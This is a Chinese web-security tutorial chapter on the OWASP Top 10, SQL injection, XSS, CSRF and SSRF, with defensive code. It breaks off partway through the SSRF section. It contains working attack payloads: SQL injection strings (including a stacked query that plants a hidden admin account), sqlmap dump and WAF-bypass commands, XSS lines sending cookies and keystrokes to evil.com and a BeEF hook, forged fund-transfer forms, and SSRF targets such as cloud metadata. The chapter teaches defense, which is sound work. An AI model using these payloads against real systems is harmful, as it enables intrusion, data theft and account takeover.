






## 三、Web安全攻防

Web应用是现代软件系统中最广泛暴露的攻击面。据OWASP统计，超过80%的安全漏洞存在于应用层，而Web安全攻防能力是每一位后端工程师的必备素养。本节系统覆盖OWASP Top 10中最常见的Web安全威胁，从攻击原理到防御策略，从代码层面到架构层面，帮助开发者建立纵深防御的安全思维。



### 3.0 Web安全全景：OWASP Top 10 (2021)

在深入具体攻防技术之前，先建立全局视野。OWASP（Open Web Application Security Project）每三年发布Top 10，总结最关键的Web安全风险：

| 排名 | 风险类别 | 危害等级 | 核心描述 | 常见漏洞 |
|------|----------|----------|----------|----------|
| A01 | 失效的访问控制 | 🔴 极高 | 越权访问资源，占所有漏洞94% | IDOR、提权、目录遍历 |
| A02 | 加密失败 | 🔴 高 | 明文传输、弱哈希、硬编码密钥 | 明文密码、弱TLS配置 |
| A03 | 注入 | 🔴 极高 | SQL/NoSQL/OS/模板注入 | SQL注入、XSS、命令注入 |
| A04 | 不安全的设计 | 🟡 中高 | 架构层面的安全缺陷 | 缺少威胁建模、业务逻辑漏洞 |
| A05 | 安全配置错误 | 🟡 中 | 默认配置、错误信息泄露 | 默认密码、调试模式开启 |
| A06 | 易受攻击的组件 | 🟡 中 | 使用含已知漏洞的依赖 | 未更新的第三方库 |
| A07 | 认证失败 | 🔴 高 | 弱密码策略、会话管理缺陷 | 暴力破解、JWT配置错误 |
| A08 | 数据完整性失败 | 🟡 中 | 不安全的反序列化、CI/CD污染 | 反序列化RCE、供应链攻击 |
| A09 | 日志与监控不足 | 🟡 中 | 安全事件无法及时发现 | 无审计日志、无告警 |
| A10 | SSRF | 🟡 中 | 服务端请求伪造 | 内网探测、元数据窃取 |

本节重点讲解A01/A02/A03/A07/A10中与Web开发最相关的攻防主题，同时补充CORS、JWT安全、XXE等高频实战场景。

---

### 3.1 SQL注入（SQL Injection）

SQL注入是Web安全中最经典、危害最大的漏洞类型，连续多年位居OWASP Top 10前列。其核心原理是：**攻击者通过在用户输入中嵌入SQL代码，欺骗后端数据库执行非预期的SQL语句**。

#### 3.1.1 攻击原理

当应用程序将用户输入直接拼接到SQL查询字符串中，数据库引擎无法区分"合法查询"和"恶意注入的代码"，从而执行攻击者构造的任意SQL。

```sql
-- 正常查询
SELECT * FROM users WHERE username='alice' AND password='s3cret'

-- 攻击者输入: username = admin' --
-- 拼接后的SQL
SELECT * FROM users WHERE username='admin' --' AND password=''
-- "注释符 --" 使密码检查被完全跳过，攻击者无需密码即可登录admin账户
```



#### 3.1.2 SQL注入五大类型

**1. 经典注入（Union-Based）**

利用 `UNION SELECT` 合并查询结果，一次性提取多张表的数据。前提条件：原始查询和注入查询的列数必须一致，且数据库支持UNION操作。

```sql
-- 原始查询: SELECT name, price FROM products WHERE id = 1
-- 步骤1：先确定列数
' UNION SELECT NULL--           -- 报错：列数不匹配
' UNION SELECT NULL,NULL--     -- 报错：列数不匹配
' UNION SELECT NULL,NULL,NULL-- -- 正好3列？不，原始查询2列
' UNION SELECT 1,2--           -- 确认列数为2

-- 步骤2：提取数据
' UNION SELECT username, password FROM users--
-- 结果: 商品名位置显示用户名，价格位置显示密码
```

**2. 布尔盲注（Boolean-Based Blind）**

当页面不回显查询结果，但对True/False有不同响应时使用。通过观察页面差异逐位推断数据。

```sql
-- 判断当前数据库名第一个字符的ASCII值
' AND (SELECT ASCII(SUBSTR(database(),1,1))) > 100--
-- 返回正常页面 → 第一个字符ASCII > 100
' AND (SELECT ASCII(SUBSTR(database(),1,1))) > 110--
-- 返回异常页面 → 第一个字符ASCII <= 110
-- 逐位二分搜索，最终还原完整字符串
-- 例：ASCII 109 = 'm'，ASCII 121 = 'y'，数据库名可能是 "myapp"
```

**3. 时间盲注（Time-Based Blind）**

当页面无任何差异化响应时的最后手段，通过数据库延时函数判断条件真伪。

```sql
-- MySQL: 若条件为真则延时5秒
' AND IF(ASCII(SUBSTR(database(),1,1))>100, SLEEP(5), 0)--
-- 若响应延迟5秒 → 条件为真；立即返回 → 条件为假

-- PostgreSQL: 
'; SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--
```

**4. 报错注入（Error-Based）**

利用数据库的错误信息回显机制提取数据，效率高于盲注。

```sql
-- MySQL报错注入（利用GROUP BY + RAND()的主键冲突）
' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT database()),0x3a,FLOOR(RAND()*2))x FROM information_schema.tables GROUP BY x)a)--
-- 错误信息中会包含数据库名，如: "Duplicate entry 'myapp:1' for key 'group_key'"

-- MySQL ExtractValue报错（更简洁）
' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT version()),0x7e))--
-- 错误信息: "XPATH syntax error: '~5.7.40~'"
```

**5. 堆叠注入（Stacked Queries）**

利用分号分隔执行多条SQL语句，可执行 `DROP TABLE`、`INSERT` 等破坏性操作。并非所有数据库驱动都支持。

```sql
-- 原始查询: SELECT * FROM users WHERE id = 1
-- 攻击者输入: 1; DROP TABLE users--
-- 执行: SELECT * FROM users WHERE id = 1; DROP TABLE users
-- 危害: 直接删除数据表

-- 更隐蔽的堆叠注入：创建隐藏管理员账户
1; INSERT INTO users(username,password,role) VALUES('backdoor','$2b$12$hashed_password','admin')--
```

#### 3.1.3 各数据库注入语法差异

| 数据库 | 注释符 | 堆叠查询 | 延时函数 | 典型Payload |
|--------|--------|----------|----------|-------------|
| MySQL | `-- ` (末尾空格) | 支持 | `SLEEP(n)` | `' UNION SELECT 1,2,3-- ` |
| PostgreSQL | `--` | 支持 | `pg_sleep(n)` | `'; SELECT 1,2,3--` |
| SQL Server | `--` | 支持 | `WAITFOR DELAY '0:0:5'` | `'; SELECT 1,2,3--` |
| Oracle | 不支持行注释 | 不支持 | 不原生支持 | `' UNION SELECT 1,2,3 FROM DUAL--` |
| SQLite | `--` | 支持 | `randomblob()`变通 | `' UNION SELECT 1,2,3--` |

#### 3.1.4 SQL注入攻击危害

- **数据泄露**：窃取用户密码、个人信息、支付数据
- **数据篡改**：修改余额、权限、订单状态
- **数据删除**：`DROP TABLE`、`DELETE FROM` 清空数据
- **权限提升**：通过 `xp_cmdshell`（SQL Server）或 `LOAD_FILE`（MySQL）执行系统命令
- **持久化后门**：写入Webshell或创建隐藏管理员账户
- **横向渗透**：以数据库为跳板攻击内网其他服务

#### 3.1.5 防御策略：六层防线

**防线一：参数化查询（最高优先级）**

参数化查询将SQL结构与数据完全分离，数据库预编译SQL后绑定参数，从根本上杜绝注入。

```python
import sqlite3

# ❌ 危险：字符串拼接
query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
cursor.execute(query)

# ✅ 安全：参数化查询（占位符方式）
cursor.execute(
    "SELECT * FROM users WHERE username = ? AND password = ?",
    (username, password)
)

# ✅ 安全：命名参数方式
cursor.execute(
    "SELECT * FROM users WHERE username = :user AND password = :pwd",
    {"user": username, "pwd": password}
)
```

```java
// Java: PreparedStatement参数化查询
// ❌ 危险
String sql = "SELECT * FROM users WHERE id = " + userId;
Statement stmt = conn.createStatement();
ResultSet rs = stmt.executeQuery(sql);

// ✅ 安全
String sql = "SELECT * FROM users WHERE id = ?";
PreparedStatement pstmt = conn.prepareStatement(sql);
pstmt.setInt(1, userId);  // 参数绑定，类型安全
ResultSet rs = pstmt.executeQuery();
```

**防线二：ORM框架**

ORM框架自动处理参数化，但仍需注意原生SQL调用。

```python
from sqlalchemy import create_engine, text
from sqlalchemy.orm import Session

engine = create_engine("sqlite:///app.db")

# ❌ 危险：ORM中原生SQL字符串拼接
with Session(engine) as session:
    result = session.execute(text(f"SELECT * FROM users WHERE id = {user_id}"))

# ✅ 安全：ORM原生SQL参数化
with Session(engine) as session:
    result = session.execute(
        text("SELECT * FROM users WHERE id = :id"),
        {"id": user_id}
    )

# ✅ 安全：Django ORM（自动参数化）
from django.contrib.auth.models import User
user = User.objects.filter(username=username).first()
```

**防线三：输入验证**

对所有用户输入进行严格的白名单验证，宁可拒绝合法输入也不接受可疑输入。

```python
import re

def validate_username(username):
    """白名单验证：只允许字母、数字、下划线，3-32位"""
    if not isinstance(username, str):
        return False
    return bool(re.match(r'^[a-zA-Z0-9_]{3,32}$', username))

def validate_integer(value):
    """强制类型转换"""
    try:
        return int(value)
    except (ValueError, TypeError):
        return None

# 实际项目中的综合输入验证
from pydantic import BaseModel, Field, validator

class CreateUserRequest(BaseModel):
    username: str = Field(..., min_length=3, max_length=32, pattern=r'^[a-zA-Z0-9_]+$')
    email: str = Field(..., max_length=255)
    age: int = Field(..., ge=0, le=150)
    
    @validator('email')
    def validate_email(cls, v):
        if not re.match(r'^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$', v):
            raise ValueError('Invalid email format')
        return v.lower()
```

**防线四：最小权限原则**

数据库账户只授予必要的最小权限。

```sql
-- 为Web应用创建只读账户（查询场景）
CREATE USER 'webapp_readonly'@'localhost' IDENTIFIED BY 'strong_password';
GRANT SELECT ON mydb.* TO 'webapp_readonly'@'localhost';

-- 为Web应用创建受限读写账户
CREATE USER 'webapp_limited'@'localhost' IDENTIFIED BY 'strong_password';
GRANT SELECT, INSERT, UPDATE ON mydb.* TO 'webapp_limited'@'localhost';
-- 注意：不授予 DROP、CREATE、ALTER 权限

-- 禁止远程登录（仅允许应用服务器IP）
CREATE USER 'webapp_prod'@'10.0.1.100' IDENTIFIED BY 'strong_password';
-- 常见错误：CREATE USER 'webapp'@'%' 允许任何IP连接
```

**防线五：错误信息控制**

数据库错误信息可能泄露表结构、字段名等敏感信息，攻击者可据此构造更精确的注入。

```python
# ❌ 危险：将数据库错误直接返回给用户
try:
    cursor.execute(query)
except Exception as e:
    return f"Database error: {str(e)}"  # 泄露SQL语法、表名、字段名

# ✅ 安全：通用错误页面 + 后台日志记录
import logging
logger = logging.getLogger(__name__)

try:
    cursor.execute(query)
except Exception as e:
    logger.error(f"Database error: {e}", exc_info=True)  # 记录到日志
    return "服务暂时不可用，请稍后重试", 500  # 返回通用信息
```

**防线六：Web应用防火墙（WAF）**

WAF作为辅助防线，可拦截常见注入模式，但**不能作为唯一防线**——WAF规则可被绕过。

常见WAF产品：
├── ModSecurity（开源，Apache/Nginx模块）
├── AWS WAF（云服务）
├── Cloudflare WAF（CDN集成）
└── NAXSI（Nginx开源模块）

#### 3.1.6 真实案例：某电商平台SQL注入事件

2023年某电商平台遭SQL注入攻击，攻击者通过搜索接口的 `sort` 参数注入，获取了1200万用户数据。攻击路径：

1. 搜索接口 GET /products?sort=price
   → 后端拼接: ORDER BY ${sort}
   
2. 攻击者构造: /products?sort=price;SELECT SLEEP(5)
   → 时间盲注确认漏洞存在
   
3. 使用sqlmap自动化提取用户表
   → 1200万条用户数据（含手机号、地址、订单）
   
4. 暗网售价: 0.5 BTC（约2万美元）

**根因**：`sort` 参数直接拼接到SQL，未做白名单验证。修复方案：将允许的排序字段写死在代码中。

#### 3.1.7 自动化检测工具

```bash
# sqlmap —— SQL注入自动化检测与利用工具
# 基本检测
sqlmap -u "http://target.com/page?id=1" --batch

# POST请求检测
sqlmap -u "http://target.com/login" --data="username=admin&amp;password=test" --batch

# 指定数据库枚举
sqlmap -u "http://target.com/page?id=1" --dbs --batch

# 导出指定表数据
sqlmap -u "http://target.com/page?id=1" -D mydb -T users --dump --batch

# 使用Burp Suite代理
sqlmap -r request.txt --proxy=http://127.0.0.1:8080 --batch

# 高级：绕过WAF
sqlmap -u "http://target.com/page?id=1" --tamper=space2comment,between --batch
```

---

### 3.2 XSS跨站脚本（Cross-Site Scripting）

XSS是Web应用中最常见的客户端攻击，攻击者将恶意JavaScript代码注入到目标网页中，在其他用户的浏览器上下文中执行。据统计，约65%的Web应用存在XSS漏洞。

#### 3.2.1 攻击原理

XSS的本质是**应用程序将用户输入作为可信内容渲染到页面中**，而浏览器无法区分"合法脚本"和"攻击者注入的脚本"。一旦恶意脚本在受害者浏览器中执行，攻击者可以：

- 窃取用户的Cookie、Session Token
- 伪造用户操作（如转账、发帖）
- 钓鱼欺诈（伪造登录弹窗）
- 挖矿、键盘记录
- 页面篡改
- 摄像头/麦克风劫持



#### 3.2.2 XSS三大类型

**1. 反射型XSS（Reflected XSS）**

恶意脚本通过URL参数传递，在服务器响应中直接反射回浏览器执行。攻击需要诱骗用户点击恶意链接。危害范围：单个用户。

# 攻击URL
https://bank.com/search?q=<script>fetch('https://evil.com/steal?cookie='+document.cookie)</script>

# 服务器将搜索词直接渲染到页面
<p>搜索结果：<script>fetch('https://evil.com/steal?cookie='+document.cookie)</script></p>

# 受害者点击链接后，其Cookie被发送到攻击者服务器

**2. 存储型XSS（Stored XSS）**

恶意脚本被永久存储到目标服务器（如数据库、评论区），每个访问该页面的用户都会被攻击。危害最大、影响范围最广。

# 攻击者在评论区提交


# 服务器未过滤直接存储，所有查看该评论的用户Cookie被窃取

**3. DOM型XSS（DOM-Based XSS）**

漏洞完全存在于客户端JavaScript中，服务器不参与攻击过程。浏览器端脚本将不可信数据写入DOM。

```javascript
// 漏洞代码：直接从URL读取参数写入页面
// URL: https://page.com/#<script>alert(1)</script>
document.getElementById('output').innerHTML = location.hash.substring(1);

// 攻击者构造恶意URL，受害者点击后在浏览器端触发XSS
```



#### 3.2.3 XSS攻击进阶技术

**绕过基础过滤的常见手法：**

# 大小写混淆
<ScRiPt>alert(1)</ScRiPt>

# 双写绕过
<scrscriptipt>alert(1)</scrscriptipt>

# 事件属性绕过

<body onload="alert(1)">
<svg onload="alert(1)">
<input onfocus=alert(1) autofocus>
<marquee onstart=alert(1)>
<details open ontoggle=alert(1)>

# 编码绕过
&#x3C;script&#x3E;alert(1)&#x3C;/script&#x3E;
javascript:alert(1)

# 空格/制表符绕过


# 无括号执行（ES6箭头函数）
onerror=alert`1`

# 利用import动态加载
<script type=module>
import('https://evil.com/xss.js')
</script>

**XSS Payload的实际危害：**

```javascript
// 1. 窃取Cookie并发送到攻击者服务器
new Image().src='https://evil.com/log?cookie='+document.cookie;

// 2. 操作DOM伪造登录弹窗（钓鱼）
document.body.innerHTML='<h2>会话过期，请重新登录</h2><form action="https://evil.com/phish"><input name="user" placeholder="用户名"><input name="pass" type="password" placeholder="密码"><button>登录</button></form>';

// 3. 使用BeEF框架控制受害者浏览器（实际攻击工具）
// BeEF注入代码：
<script src="http://attacker.com:3000/hook.js"></script>

// 4. 键盘记录
document.addEventListener('keypress', function(e) {
    new Image().src = 'https://evil.com/keylog?key=' + e.key;
});

// 5. 摄像头劫持（需用户授权）
navigator.mediaDevices.getUserMedia({video: true})
  .then(stream => {
    const recorder = new MediaRecorder(stream);
    recorder.start();
    // ... 将视频流发送到攻击者服务器
  });
```

#### 3.2.4 防御策略：四层防线

**防线一：输出编码（Output Encoding）**

在数据渲染到HTML/JS/CSS/URL之前，对特殊字符进行转义编码。**编码的上下文决定编码方式**——HTML属性、JavaScript、CSS、URL各有不同的编码规则。

| 输出上下文 | 编码方式 | 关键字符 | 示例 |
|-----------|---------|---------|------|
| HTML body | HTML实体编码 | `< > & " '` | `&lt;script&gt;` |
| HTML属性 | HTML实体编码 | 同上 | `value="&lt;b&gt;"` |
| JavaScript | JavaScript编码 | `' " \ < > /` | `\u003cscript\u003e` |
| URL参数 | URL编码 | `& = + %` | `%3Cscript%3E` |
| CSS | CSS编码 | `\ " '` | `\003c\0073cript` |

```python
# Python：HTML转义
from markupsafe import escape

user_input = '<script>alert(1)</script>'
safe_html = f"<div>{escape(user_input)}</div>"
# 结果: <div>&lt;script&gt;alert(1)&lt;/script&gt;</div>
```

```javascript
// JavaScript：DOM安全操作
// ❌ 危险：直接写入HTML
element.innerHTML = userInput;

// ✅ 安全：使用textContent
element.textContent = userInput;

// ✅ 安全：React/JSX自动转义
// React中 <div>{userInput}</div> 自动转义HTML实体
// 但 dangerouslySetInnerHTML 会绕过转义，必须谨慎使用

// ✅ 安全：Vue模板自动转义
// {{ userInput }} 自动转义
// v-html 不会转义，需自行净化
```

**防线二：内容安全策略（CSP）**

CSP通过HTTP响应头定义浏览器可以加载和执行哪些资源，是防御XSS的最强力手段。

```nginx
# 严格的CSP策略
Content-Security-Policy:
    default-src 'self';                          # 默认只允许同源
    script-src 'self' 'nonce-abc123';            # 只允许带指定nonce的脚本
    style-src 'self' 'unsafe-inline';            # 允许同源和内联样式
    img-src 'self' data: https:;                 # 图片来源白名单
    connect-src 'self' https://api.example.com;  # AJAX请求白名单
    frame-ancestors 'none';                       # 禁止iframe嵌入
    base-uri 'self';                              # 限制<base>标签
    form-action 'self';                           # 限制表单提交目标
    object-src 'none';                            # 禁止插件
    font-src 'self' https://fonts.gstatic.com;   # 字体来源
```

# nonce机制详解
# 每次请求生成随机nonce值，只有匹配的脚本可以执行
Content-Security-Policy: script-src 'nonce-{random}';

<!-- 携带正确nonce的脚本可以执行 -->
<script nonce="abc123">console.log('执行成功');</script>

<!-- 没有正确nonce的内联脚本会被阻止 -->
<script>console.log('被阻止');</script>

```nginx
# Nginx配置CSP
add_header Content-Security-Policy "default-src 'self'; script-src 'self' 'nonce-$request_id';" always;
```

**防线三：HTTPOnly Cookie**

将Session Cookie设置为HttpOnly，禁止JavaScript通过 `document.cookie` 访问，即使XSS注入成功也无法窃取Cookie。

```python
# Flask：设置HttpOnly Cookie
@app.route('/login', methods=['POST'])
def login():
    # ... 验证逻辑 ...
    session.permanent = True
    response = make_response(redirect('/dashboard'))
    response.set_cookie(
        'session_id',
        value=session_id,
        httponly=True,    # 禁止JS访问
        secure=True,      # 仅HTTPS传输
        samesite='Lax',   # 防CSRF
        max_age=3600      # 1小时过期
    )
    return response
```

**防线四：输入净化（Input Sanitization）**

对用户提交的富文本内容进行HTML净化，移除危险标签和属性，保留安全的格式化标签。

```python
from bleach import clean

# 允许的标签和属性白名单
ALLOWED_TAGS = ['p', 'b', 'i', 'u', 'em', 'strong', 'a', 'br', 'ul', 'ol', 'li']
ALLOWED_ATTRIBUTES = {'a': ['href', 'title'], '*': ['class']}

# 净化用户提交的富文本
user_html = '<p>正常内容</p><script>alert(1)</script><a href="javascript:alert(1)">链接</a>'
safe_html = clean(user_html, tags=ALLOWED_TAGS, attributes=ALLOWED_ATTRIBUTES)
# 结果: <p>正常内容</p>alert(1)<a>链接</a>
# script标签被移除，javascript:协议被阻止
```

#### 3.2.5 真实案例：CVE-2023-XXXX 某CMS存储型XSS

某知名CMS系统的评论功能存在存储型XSS，攻击者在评论中注入：


**影响范围**：所有访问该评论页面的管理员（包括后台管理界面），导致后台session被窃取，最终网站被完全接管。

**修复时间线**：漏洞发现 → 72小时内未修补 → 网站被接管 → 紧急修复发布。

**教训**：XSS不仅是"弹个alert"，可以造成与SQL注入同等严重的后果。

---

### 3.3 CSRF跨站请求伪造（Cross-Site Request Forgery）

CSRF攻击利用用户已登录的状态，诱骗用户在不知情的情况下执行非预期的操作。攻击者不需要知道用户的凭据，只需要利用浏览器自动附带Cookie的机制。

#### 3.3.1 攻击原理

浏览器在向目标域发送请求时，会自动附带该域的Cookie（包括HttpOnly Cookie）。攻击者利用这一机制，构造指向目标站点的请求，受害者访问攻击者页面时浏览器自动发送请求。



#### 3.3.2 CSRF攻击载体

**1. 表单自动提交（最经典）**

```html
<!-- 攻击者页面：自动提交隐藏表单 -->
<body onload="document.getElementById('csrf-form').submit()">
<form id="csrf-form" action="https://bank.com/transfer" method="POST" style="display:none">
    <input type="hidden" name="to" value="attacker_account">
    <input type="hidden" name="amount" value="100000">
    <input type="hidden" name="memo" value="合法交易">
</form>
</body>
```

**2. 图片标签GET请求**

```html
<!-- 利用img标签发起GET请求（适用于GET接口的敏感操作） -->

```

**3. XMLHttpRequest/Fetch**

```javascript
// 利用JavaScript发起跨域请求
const xhr = new XMLHttpRequest();
xhr.open('POST', 'https://bank.com/transfer', true);
xhr.withCredentials = true;  // 携带Cookie
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('to=attacker&amp;amount=100000');
```

**4. 诱骗点击**

```html
<!-- 伪装成正常按钮 -->
<a href="https://bank.com/transfer?to=attacker&amp;amount=100000" style="text-decoration:none">
    <button style="font-size:20px;padding:15px">领取优惠券</button>
</a>
```

#### 3.3.3 CSRF防御策略

**策略一：CSRF Token（最可靠的防御）**

服务器生成唯一的、不可预测的Token，嵌入表单中提交。攻击者无法获取该Token，因此无法构造有效请求。

```html
<!-- 服务端渲染：嵌入CSRF Token -->
<form action="/transfer" method="POST">
    <input type="hidden" name="csrf_token" value="a1b2c3d4e5f6unique_token_here">
    <input type="text" name="to" placeholder="收款账号">
    <input type="number" name="amount" placeholder="金额">
    <button type="submit">转账</button>
</form>
```

```python
# Flask：使用Flask-WTF实现CSRF保护
from flask import Flask, request
from flask_wtf.csrf import CSRF, generate_csrf, validate_csrf

app = Flask(__name__)
app.config['SECRET_KEY'] = 'your-secret-key'
csrf = CSRF(app)

# 表单中自动包含CSRF Token
# <input type="hidden" name="csrf_token" value="{{ csrf_token() }}">

# API场景：Token放在Header中
@app.route('/api/transfer', methods=['POST'])
def api_transfer():
    # 验证Header中的CSRF Token
    token = request.headers.get('X-CSRF-Token')
    try:
        validate_csrf(token)
    except Exception:
        return 'Invalid CSRF token', 403
    # ... 执行转账逻辑 ...
```

**策略二：SameSite Cookie属性**

SameSite属性限制Cookie在跨站请求中的发送行为，是现代浏览器防御CSRF的核心机制。

# SameSite三个值
Set-Cookie: session=abc123; SameSite=Strict
# 最严格：任何跨站请求都不发送Cookie
# 缺点：用户从外部链接点击进入网站时登录状态丢失

Set-Cookie: session=abc123; SameSite=Lax
# 推荐：跨站GET请求发送（如链接跳转），POST请求不发送
# 兼顾安全性和用户体验

Set-Cookie: session=abc123; SameSite=None; Secure
# 最宽松：跨站请求也发送Cookie（必须配合Secure仅HTTPS）
# 仅在确实需要跨站Cookie的场景使用

```python
# Flask配置SameSite
app.config['SESSION_COOKIE_SAMESITE'] = 'Lax'
app.config['SESSION_COOKIE_SECURE'] = True   # 仅HTTPS
app.config['SESSION_COOKIE_HTTPONLY'] = True  # 禁JS访问
```

**策略三：双重提交Cookie（Double Submit）**

适用于SPA和API架构：Token同时放在Cookie和请求体/Header中，服务端比对两者是否一致。攻击者无法读取同站Cookie，因此无法伪造一致的Token对。

```javascript
// 前端：每次请求携带Token
const csrfToken = getCookie('csrf-token');
fetch('/api/transfer', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'X-CSRF-Token': csrfToken  // Header中携带Token
    },
    body: JSON.stringify({ to: 'user2', amount: 100 })
});
```

**策略四：检查Referer/Origin头**

验证请求来源是否为合法域名，作为辅助防御手段。

```python
@app.before_request
def check_origin():
    """验证请求来源"""
    allowed_origins = ['https://bank.com', 'https://www.bank.com']
    origin = request.headers.get('Origin')
    referer = request.headers.get('Referer')
    
    # 优先检查Origin
    if origin and origin not in allowed_origins:
        return 'Forbidden', 403
    
    # 降级检查Referer
    if referer:
        from urllib.parse import urlparse
        parsed = urlparse(referer)
        if f"{parsed.scheme}://{parsed.netloc}" not in allowed_origins:
            return 'Forbidden', 403
```

#### 3.3.4 CSRF vs SameSite 浏览器支持矩阵

| 浏览器 | SameSite默认值 | Lax支持 | Strict支持 | SameSite=None支持 |
|--------|---------------|---------|-----------|-------------------|
| Chrome 80+ | Lax | ✅ | ✅ | ✅（需Secure） |
| Firefox 69+ | Lax | ✅ | ✅ | ✅（需Secure） |
| Safari 12+ | Lax | ✅ | ✅ | ✅（需Secure） |
| Edge 79+ | Lax | ✅ | ✅ | ✅（需Secure） |
| IE 11 | None | ❌ | ❌ | ❌ |

> **实践建议**：新项目默认使用 `SameSite=Lax`，对CSRF敏感操作额外加CSRF Token。老项目需要逐步迁移Cookie属性。

---

### 3.4 SSRF服务端请求伪造（Server-Side Request Forgery）

SSRF是OWASP Top 10 (2021) 新增的威胁，攻击者通过操纵服务器发起的HTTP请求，使服务器访问内部网络资源或外部任意地址。SSRF的危害在于：**攻击者借服务器之手，突破了网络边界限制**。

#### 3.4.1 攻击原理与危害



正常请求：用户 → 服务器 → 外部API（正常）
SSRF攻击：用户 → 服务器 → 内部网络（恶意）

典型攻击目标：
├── 内网服务探测：扫描127.0.0.1/192.168.x.x等内网地址
├── 云元数据服务：http://169.254.169.254/latest/meta-data/（AWS/GCP/Azure）
│   └── 可获取：IAM角色凭据、实例配置、私钥
├── 内部数据库：Redis(6379)、MongoDB(27017)、MySQL(3306)
├── 内部管理后台：http://admin.internal:8080
├── 本地文件读取：file:///etc/passwd、file:///proc/self/environ
└── 内部Kubernetes API：https://kubernetes.default.svc

#### 3.4.2 常见SSRF触发场景

```python
# 场景一：URL抓取/预览功能
@app.route('/fetch-url')
def fetch_url():
    """网页快照/URL预览功能"""
